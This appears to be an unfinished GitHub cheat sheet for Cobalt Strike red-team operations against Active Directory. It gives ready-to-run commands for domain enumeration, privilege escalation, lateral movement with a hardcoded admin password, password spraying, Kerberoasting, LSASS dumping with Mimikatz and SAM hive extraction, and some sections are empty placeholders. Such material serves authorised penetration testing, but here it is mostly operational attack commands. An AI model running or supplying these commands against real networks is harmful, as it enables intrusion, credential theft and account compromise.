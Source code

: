 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
# PowerView:
powershell-import --> Select PowerView.ps1 to import PS1 file in memory
powershell Get-Module PowerView
powershell Get-NetUser -Identity testuser -Domain lab.com

# SharpView
execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
# Running SharpView in memory (.NET version of PowerView)
execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

# Collecting only user sessions to determine who is logged in and where:
execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

# Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
-----------------------------------------------------------------------------------------
## Local Privilege Escalation
PowerUp
```
powershell-import --> PowerUp.ps1
powershell Invoke-AllChecks | Out-File -Encoding ASCII PowerUp-checks.txt
```

[SeatBelt](https://github.com/GhostPack/Seatbelt) - GREAT GhostPack tool to query a local system system/user/remote/misc data
Can be used as Admin or normal-privileged user
```
# Run ALL checks - returns TONS of data
execute-assembly C:\SeatBelt.exe -group=all -full -outputfile="C:\Temp\SeatBelt-all.json"

# Run only user-related checks - returns things like Chrome data, DPAPI keys, IE tabs, Windows vault/credentials, etc.
execute-assembly C:\SeatBelt.exe -group=user -outputfile="C:\Temp\SeatBelt-user.json"

# Run only system-related checks - returns things like Antivirus, Applocker, env path/variables, local users/groups, WMI, sysmon, UAC, etc.
execute-assembly C:\SeatBelt.exe -group=system -outputfile="C:\Temp\SeatBelt-system.json"

# Run only Chrome checks - returns bookmarks, history, presence
execute-assembly C:\SeatBelt.exe -group=chromium -outputfile="C:\Temp\SeatBelt-chrome.json"

# Run only remote-related checks - returns things like network shares, putty sessions, RDP connections/settings, Filezilla, Windows firewall, etc.
execute-assembly C:\SeatBelt.exe -group=remote -outputfile="C:\Temp\SeatBelt-remote.json"

# Run only miscellaneous-related checks - returns things like Chrome data, logon events, LOBAS, interesting files, downloads, PS events, scheduled tasks, etc.
execute-assembly C:\SeatBelt.exe -group=misc -outputfile="C:\Temp\SeatBelt-misc.json"
```

------------------------------------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting manually
```
# Enable on local system with Admin privileges
powershell Enable-PSRemoting –Force

# Enable on remote system 
make_token AD\admin Password123! --> Token with Admin privileges on remote system is required
shell psexec.exe \\TestComputer.lab.com -h -s powershell.exe Enable-PSRemoting -Force

# Test remote access
powershell Invoke-Command -ComputerName TestComputer -ScriptBlock { whoami; hostname }
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
```
powershell-import --> RACE.ps1
make_token AD\Admin password --> This tool will require Admin privileges on the remote system
powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-dc.lab.com --> Force enable PS remoting for the specific user
powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-dc.lab.com --> Force enable WMI for the specific user
```
------------------------------------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
powershell-import --> DomainPasswordSpray.ps1
# Get the full domain user list
powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

# Password spray from a username and password list
powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

# Auto spray a specific password on an auto-generated user list (very noisy)
powershell Invoke-DomainPasswordSpray -Password Winter2020
```

### Kerberoasting
PowerView kerberoasting
```
# Get users with SPN set
powershell Get-DomainUesr -SPN

# Kerberoast all users
powershell Invoke-Kerberoast - OutputFormat hashcat | fl

# Kerberoast specific user
powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
# Kerberoast all users
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

# Kerberoast specific user
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

------------------------------------------------------------------------------------------
## Exploitation

### Chrome Session Stealing
SharpDPAPI to dump domain master key (requires DA privileges)
```
fill in
```

SharpChrome - test
```
# Dumping Chrome login passwords on remote machines


# Dumping and decryptiong Chrome user sessions on remote machines

```

------------------------------------------------------------------------------------------
## Exfiltration - Password Attacks
### Dumping LSASS locally
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but will often still output dump file)
```
upload --> ProcDump.exe
shell ProcDump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) without touching disk
```
powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```
Extracting hashes offline from LSASS using Mimikatz
```
mimikatz.exe log "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "sekurlsa::wdigest" exit
```

### SAM database dump using reg.exe (requries local Admin)
```
shell reg.exe save HKLM\sam sam.save
shell reg.exe save HKLM\security security.save
shell reg.exe save HKLM\system system.save

# Download SAM files then dump hahses offline using Secretsdump.py
python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### NTDS.dit dump
[Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to dump NTDS.dit remotely
```
fill
```
NTDSutil.exe to dump NTDS.dit locally on a Domain Controller
```
fill
```

------------------------------------------------------------------------------------------
# References
[Cobalt Strike commands cheat-sheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)

[Sharphound](https://github.com/BloodHoundAD/SharpHound3)

[PowerShell remoting cheat sheet](https://blog.netspi.com/powershell-remoting-cheatsheet/)

[Mimikatz reference cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

[SpectreOps Cobalt Strike command reference](https://xzfile.aliyuncs.com/upload/affix/20190126174144-9767f9f2-214e-1.pdf)
